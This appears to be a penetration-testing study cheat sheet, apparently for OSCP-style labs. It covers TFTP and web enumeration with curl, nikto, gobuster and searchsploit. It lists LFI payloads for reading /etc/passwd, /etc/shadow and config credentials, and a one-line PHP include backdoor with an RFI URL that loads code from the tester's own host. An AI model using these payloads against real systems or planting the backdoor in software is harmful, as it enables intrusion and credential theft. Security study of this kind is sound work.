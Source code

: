 # TFTP - UDP 69

- Read / Write access?
  - Pretty much same things as FTP



Also: ***CHECK VERSIONS*** and `searchsploit`





# HTTP - 80, 8080, 8000

```
curl -i ${IP}/robots.txt
```

Note down Server and other module versions.

searchsploit them ALL.

Visit all URLs from robots.txt.

```
nikto -host $IP
```

```
gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt

gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt
```

if nothing, find more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to be on look for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow` insta-win
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`

### WEB-SERVICES/CMS's:
CMS	https://github.com/s0wr0b1ndef/OSCP-note/tree/master/ENUMERATION/CMS
```
This program attempts to brute-force guess the plugins and themes
installed in a CMS by requesting each plugin or theme name and
looking at the response codes.

The software can currently brute force themes and plugins/modules in:
	Wordpress
	Drupal
	Joomla!
	Mambo
  ```